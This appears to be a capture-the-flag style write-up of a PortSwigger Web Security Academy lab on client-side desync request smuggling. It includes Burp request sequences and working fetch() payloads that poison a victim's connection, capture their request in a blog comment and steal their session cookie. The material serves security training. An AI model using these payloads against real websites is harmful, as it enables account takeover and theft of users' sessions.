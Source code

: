 # Client-side desync

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync) is vulnerable to client-side desync attacks because the server ignores the `Content-Length` header on requests to some endpoints. This can be exploited to induce a victim's browser to disclose its session cookie. See [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling: CSD](https://portswigger.net/research/browser-powered-desync-attacks#csd).

## Reproduction and proof of concept

### Identify a vulnerable endpoint

1. Notice that requests to `/` result in a redirect to `/en`.
2. Send the `GET /` request to Burp Repeater.
3. In Burp Repeater, use the tab-specific settings to disable the **Update Content-Length** option.
4. Convert the request to a `POST` request (right-click and select Change request method).
5. Change the `Content-Length` to 1 or higher, but leave the body empty.
6. Send the request. Observe that the server responds immediately rather than waiting for the body. This suggests that it is ignoring the specified `Content-Length`.

### Confirm the desync vector in Burp

1. Re-enable the **Update Content-Length** option.
2. Add an arbitrary request smuggling prefix to the body:

```html
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Connection: close
Content-Length: CORRECT

GET /404 HTTP/1.1
Foo: x
```

3. Add a normal request for `GET /` to the tab group, after your malicious request.
4. Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection).
5. Change the `Connection` header of the first request to `keep-alive`.
6. Send the sequence and check the responses. If the response to the second request matches what you expected from the smuggled prefix (in this case, a 404 response), this confirms that you can cause a desync.

### Replicate the desync vector in your browser

1. Open a separate instance of Chrome that is **not** proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the Preserve log option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the fetch() API as follows:

```html
fetch('https://lab-id.web-security-academy.net', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors',
    credentials: 'include',
}).catch(() => {
        fetch('https://lab-id.web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

6. Note that we're intentionally triggering a CORS error to prevent the browser from following the redirect, then using the `catch()` method to continue the attack sequence.
7. On the Network tab, you should see two requests:
* The main request, which has triggered a CORS error.
* A request for the home page, which received a 404 response.

This confirms that the desync vector can be triggered from a browser.

### Identify an exploitable gadget

1. Back in Burp's browser, visit one of the blog posts and observe that this lab contains a comment function.
2. From the **Proxy > HTTP history**, find the `GET /en/post?postId=x` request. Make note of the following:
* The `postId` from the query string
* Your session and `_lab_analytics` cookies
* The `csrf` token
3. In Burp Repeater, use the desync vector from the previous section to try to capture your own arbitrary request in a comment. For example:

Request 1:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Connection: keep-alive
Content-Length: CORRECT

POST /en/post/comment HTTP/1.1
Host: lab-id.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE
Content-Length: NUMBER-OF-BYTES-TO-CAPTURE
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://ginandjuice.shop&comment=
```

Request 2:

```html
GET /capture-me HTTP/1.1
Host: lab-id.web-security-academy.net
```

Note that the number of bytes that you try to capture must be longer than the body of your `POST /en/post/comment` request prefix, but shorter than the follow-up request.

4. Back in the browser, refresh the blog post and confirm that you have successfully output the start of your `GET /capture-me` request in a comment.

### Replicate the attack in your browser

1. Open a separate instance of Chrome that is not proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the Preserve log option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the `fetch()` API as follows:

```text
fetch('https://lab-id.web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: lab-id.web-security-academy.net\r\nCookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE\r\nContent-Length: NUMBER-OF-BYTES-TO-CAPTURE\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://portswigger.net&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://lab-id.web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

6. On the Network tab, you should see three requests:
* The initial request, which has triggered a CORS error.
* A request for `/capture-me`, which has been redirected to the post confirmation page.
* A request to load the post confirmation page.
7. Refresh the blog post and confirm that you have successfully output the start of your own `/capture-me` request via a browser-initiated attack.

### Exploit

1. Go to the exploit server.
2. In the Body panel, paste the script that you tested in the previous section.
3. Wrap the entire script in HTML `script` tags.

![HTTP header smuggling](../../_static/images/smuggling31.png)

4. Store the exploit and click **Deliver to victim**.
5. Refresh the blog post and confirm that you have captured the start of the victim user's request.
6. Repeat this attack, adjusting the `Content-Length` of the nested `POST /en/post/comment` request until you have successfully output the victim's session cookie.

![HTTP header smuggling](../../_static/images/smuggling30.png)

7. In Burp Repeater, send a request for `/my-account` using the victim's stolen cookie to solve the lab.

## Exploitability

An attacker will need to identify a client-side desync vector in Burp, then confirm that it can be replicated this in your browser; identify a gadget that enables storing text data within the application; combine these to craft an exploit that causes the victim's browser to issue a series of cross-domain requests that leak their session cookie; and use the stolen cookie to access the victim's account.
